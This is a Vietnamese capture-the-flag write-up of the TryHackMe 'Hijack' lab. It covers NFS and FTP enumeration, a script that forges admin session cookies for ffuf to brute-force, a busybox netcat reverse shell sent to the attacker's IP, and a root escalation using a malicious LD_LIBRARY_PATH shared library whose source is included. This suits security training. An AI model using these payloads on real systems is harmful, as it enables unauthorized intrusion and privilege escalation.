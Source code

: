 # [THM] Hijack write-up
## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -p- -T5 --max-retries=1 --min-rate=1000 10.10.107.222

> nmap -p21,22,80,111,2049,35601,44777,46395,58545 -sV -sC -T4 10.10.107.222

<p align="center">
    <img src="./img/nmap-scan.png" alt="Nmap scan">
</p>

Các port dịch vụ đang mở bao gồm
- Port 21 chạy dịch vụ FTP
- Port 22 chạy dịch vụ SSH
- Port 80 chạy dịch vụ HTTP
- Port 111 chạy dịch vụ Portmapper (RPCBind)
- Port 2049 chạy dịch vụ NFS
- Các port còn lại là các port tạm thời đều liên quan tới port dịch vụ 111 bên trên

Giao diện trang web khi truy cập port 80
![Web interface](./img/web-interface.png)

Trên trang web phát hiện ra một số đường dẫn cũng như sử dụng ffuf để scan thư mục ẩn thì ta thu được một số kết quả như bên dưới
<p align="center">
    <img src="./img/ffuf-scan.png" alt="Ffuf scan">
</p>

Truy cập một số đường đẫn trên ta không có được thông tin gì hữu ích, tại /adminstration.php thì bị từ chối quyền truy cập (*Access denied, only the admin can access this page.*). Tôi nghĩ ta cần tìm cách truy cập được vào đây để lấy được thông tin hữu ích

Ta quay lại với các port khác như port 21 FTP thử với tài khoản **Anonymous** nhưng không thể truy cập. Tiếp theo tới port 111, sau một hồi tìm kiếm thông tin thì thấy RFCBind và NFS có thể kết hợp để khai thác. Tham khảo tại [HackTricks - 111/TCP/UDP - Pentesting Portmapper](https://hacktricks.boitatech.com.br/pentesting/pentesting-rpcbind#rpcbind--nfs) và [HackTricks - 2049 - Pentesting NFS Service](https://hacktricks.boitatech.com.br/pentesting/nfs-service-pentesting)

<p align="center">
    <img src="./img/nfs-mount.png" alt="NFS mount">
</p>

Kiểm tra và nhận thấy hijack.thm đang chia sẻ thư mục **/mnt/share** cho tất cả mọi người ta tạo thư mục và mount thư mục được chia sẻ vào nhưng chưa thể truy cập vì nó được yêu cầu với quyền user id 1003. Tiến hành tạo tài khoản với user id đó và truy cập 

<p align="center">
    <img src="./img/ftp-user.png" alt="FTP user">
</p>

Sau khi đã truy cập được vào thư mục đó ta đã có được FTP user. Truy cập FTP đã có được thông tin hữu ích

<p align="center">
    <img src="./img/admin-account.png" alt="admin account">
</p>

Đã có file tài khoản nhưng ta thấy note đã limit số lần đăng nhập vậy ta không thể bruteforce theo cách thông thường. Kiểm tra thử tạo tài khoản và đăng nhập thì nhận ra có chuỗi session 

<p align="center">
    <img src="./img/burp-session.png" alt="burp session">
</p>

Thử decode base64 chuỗi session đó và đã nhận được kết quả là **username:hash**
<p align="center">
    <img src="./img/base64-decode.png" alt="base64 decode">
</p>

Kiểm tra đoạn hash phía sau và xác định dược nó là MD5
<p align="center">
    <img src="./img/checkhash.png" alt="check hash">
</p>

Để chắc chắn hơn ta thử hash lại mật khẩu và kết quả không nằm ngoài dự đoán
<p align="center">
    <img src="./img/hash-confirm.png" alt="hash confirm">
</p>

## Exploit

Vậy ta đã xác định được sau khi đăng nhập thì session sẽ được sinh ra theo format **base64(username):hash-MD5(password)**. Để xác định được session của admin ta cần thực hiện chuyển đổi dạng password -> xử lý tạo ra chuỗi session và cuối cùng là sẽ sử dụng ffuf để gửi request

#### Tạo chuỗi session
Để thực hiện tạo session ta sẽ viết đoạn script python để xử lý
```python
import hashlib
import base64

input_file = '.passwords_list.txt'
output_file = 'session.txt'

try:
        with open(input_file, 'r') as infile, open(output_file, 'w') as outfile:
                for line in infile:
                        clean_line = line.strip()

                        md5_hash = hashlib.md5(clean_line.encode('utf-8')).hexdigest()

                        combined_string = f"admin:{md5_hash}"

                        base64_encoded = base64.b64encode(combined_string.encode('utf-8')).decode('utf-8')

                        outfile.write(base64_encoded + '\n')

        print(f" Success check '{output_file}'.")

except FileNotFoundError:
    print(f"ERROR: file name doesn't exists '{input_file}'")
except Exception as e:
    print(f"ERROR: {e}")
```

Chạy đoạn code trên và đã nhận được kết quả session file

<p align="center">
    <img src="./img/session-file.png" alt="session file">
</p>

#### Gửi request
Ở bước này sẽ sử dụng ffuf để gửi request với payload là session file để xác định được kết quả session của admin

> ffuf -u http://hijack.thm/administration.php -w session.txt -X POST -b 'PHPSESSID=FUZZ' -fw 9

Đã xác định được session của admin
<p align="center">
    <img src="./img/ffuf-session.png" alt="ffuf session">
</p>

Khi thay giá trị session và reload ta đã vào được dashboard với quyền admin với quyền trên ta cũng có thể truy cập vào đường dẫn **/administration.php**
<p align="center">
    <img src="./img/admin-dashboard.png" alt="admin dashboard">
</p>

Với kết quả như dưới thì ta có thể tận dụng được execute command để chèn revershell và truy cập vào shell của www-data

<p align="center">
    <img src="./img/test-command.png" alt="test command">
</p>

### www-data shell

Sử dụng [revshell](https://www.revshells.com/) để thực hiện tạo reverse shell thử một số loại shell như bash thì không thấy hoạt động tuy nhiên nó đã hoạt động với busybox `busybox nc 10.21.113.26 1234 -e /bin/sh`

<p align="center">
    <img src="./img/www-shell.png" alt="www-data shell">
</p>

### Rick shell

<p align="center">
    <img src="./img/rick-account.png" alt="rick account">
</p>

Với thông tin trên ta tiến hành thử ssh vào tài khoản rick

Đã truy cập và lấy được user flag

<p align="center">
    <img src="./img/user-flag.png" alt="user flag">
</p>

### Escalation privilege
Kiểm tra user rick có quyền chạy root với chức năng nào không với câu lệnh `sudo -l`

<p align="center">
    <img src="./img/sudo-l.png" alt="sudo -l">
</p>

Ta có thể chạy /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2 với tư cách root, ta không thể làm được nhiều với quyền đó, nhưng chúng ta nhận thấy điều này trong đầu ra của lệnh `sudo -l`: `env_keep+=LD_LIBRARY_PATH` cấu hình sudo này cho phép giữ lại (preserve) biến môi trường `LD_LIBRARY_PATH` của mình khi chạy lệnh với sudo 
- LD_LIBRARY_PATH là một biến môi trường chỉ định cho hệ thống các thư mục cần tìm kiếm file thư viện dùng chung (.so - shared object) trước tiên, trước cả các thư mục hệ thống mặc định

Khi apache2 khởi động, nó sẽ nạp (load) rất nhiều file thư viện .so (được gọi là các module). Bằng cách kiểm soát `LD_LIBRARY_PATH`, ta có thể "đánh lừa" apache2 (đang chạy với quyền root) nạp một file .so độc hại do ta tạo ra, thay vì file thư viện hợp lệ của hệ thống. Đoạn mã trong file .so độc hại đó sẽ được thực thi với quyền root

Ta cần tạo payload có thể tham khảo [HackTricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#ld_preload--ld_library_path)

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Tiếp theo chạy lệnh sau để biên dịch file shell.c thành một file thư viện có tên libcrypt.so.1. Ta chọn tên này vì nó là một thư viện phổ biến mà nhiều chương trình sử dụng.

> gcc -shared -fPIC -o /tmp/libcrypt.so.1 shell.c

*Lưu ý: ta lưu file vào thư mục /tmp vì đây là nơi mọi người dùng thường có quyền ghi*


Cuối cùng chạy câu lệnh `sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2`. Ngay lập tức, apache2 (chạy với quyền root) sẽ tìm libcrypt.so.1 trong /tmp trước, nạp file độc hại và thực thi đoạn mã trong đó. Kết quả là sẽ có ngay shell với quyền root.

<p align="center">
    <img src="./img/root-flag.png" alt="root flag">
</p>

# DONE

<p align="center">
    <img src="./img/done.png" alt="done">
</p>
